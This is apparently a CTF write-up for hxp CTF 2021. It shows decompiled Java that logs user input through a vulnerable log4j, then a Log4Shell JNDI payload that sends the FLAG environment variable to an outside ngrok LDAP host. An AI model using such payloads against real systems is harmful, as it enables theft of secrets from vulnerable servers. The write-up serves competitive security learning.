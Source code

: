 # hxp CTF 2021

| Challenge                                                | Category | Points |
| -------------------------------------------------------- | -------- | ------ |
| [Log 4 Sanity Check](hxp-ctf-2021.md#log-4-sanity-check) | Misc     |        |
| [Shitty Blog](hxp-ctf-2021.md#shitty-blog)               | Web      |        |

## Log 4 Sanity Check

{% file src="../.gitbook/assets/Log 4 sanity check-9afb8a24feb86db1.tar.xz" %}

We could see that the vulnerable `log4j` library is used to log the user input when it is "wrong".

```java
/* Decompiler 2ms, total 1137ms, lines 28 */
import java.util.Scanner;
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class Vuln {
   public static void main(String[] var0) {
      try {
         Logger var1 = LogManager.getLogger(Vuln.class);
         System.out.println("What is your favourite CTF?");
         String var2 = (new Scanner(System.in)).next();
         if (var2.toLowerCase().contains("dragon")) {
            System.out.println("<3");
            System.exit(0);
         }

         if (var2.toLowerCase().contains("hxp")) {
            System.out.println(":)");
         } else {
            System.out.println(":(");
            var1.error("Wrong answer: {}", var2);
         }
      } catch (Exception var3) {
         System.err.println(var3);
      }

   }
}
```

I wasn't able to get full-on RCE, but information disclosure through [this vector](https://twitter.com/Rayhan0x01/status/1469571563674505217) was sufficient! We could use `${env:FOO}` to substitute the `FOO` environment variable into the URI.

```
$ ~ nc 65.108.176.77 1337
What is your favourite CTF?
${jndi:ldap://8.tcp.ngrok.io:16804/${env:FLAG}}
:(
```
